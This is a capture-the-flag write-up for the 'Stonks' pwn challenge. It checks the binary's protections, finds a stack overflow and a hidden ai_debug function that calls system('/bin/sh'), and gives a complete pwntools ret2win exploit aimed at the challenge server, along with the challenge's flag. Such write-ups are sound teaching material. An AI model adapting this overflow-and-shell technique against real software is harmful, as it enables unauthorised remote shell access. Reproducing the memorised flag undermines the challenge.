 # Stonks

## Analyzing
Checking the type of the file: `file chal`
```
chal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c9dd0853a3d57b88734e4b8bfc2feeff478b5b67, for GNU/Linux 3.2.0, not stripped
```

Checking what protections are enabled: `checksec chal`
```
[*] '/chal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

After fuzzing the application with gdb I found out that we can control the stack after 48 bytes.

I found out interesting function called `ai_debug`
It puts 0x402008 into RDI and executes `system()`. The address points to string `/bin/sh`

That is our way to pwn the challenge. 

## Exploiting
1. First we need to send 40 bytes of junk, because string `/bin/sh` is 8 bytes. 
2. Send a simple return address to align the stack.
3. Call ai_debug function to gain shell. 

Exploit code

```python
from pwn import *

#Settings
filename = "chal"
remoteOn = True
junk = b"A"*40
def start(elf, ssh=False, libc=None):
    if remoteOn:
        if ssh:
            s = ssh(host="", user="", password="")
            return [s.process(), libc]
        else:
            return [remote("stonks.hsc.tf", 1337), libc]
    else:
        return [elf.process(), '/lib/x86_64-linux-gnu/libc.so.6']


#Start the processes.
elf = ELF(filename)
r = start(elf)[0]
if start(elf)[1] is not None:
    libc = ELF(start(elf)[1])
rop = ROP(elf)

#Base gadgets
ret_addr = (rop.find_gadget(['ret']))[0] # Base return address
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0] # pop rdi; ret
log.info(f"pop rdi @ {hex(pop_rdi)}")
log.info(f"return address @ {hex(ret_addr)}")

ai_debug = elf.symbols["ai_debug"]
log.info(f"ai_debug @ {hex(ai_debug)}")

payload = junk
payload += p64(ret_addr)
payload += p64(ai_debug)


r.sendafter("Please enter the stock ticker symbol: ", payload)
r.interactive()

```

## Flag
flag{to_the_moon}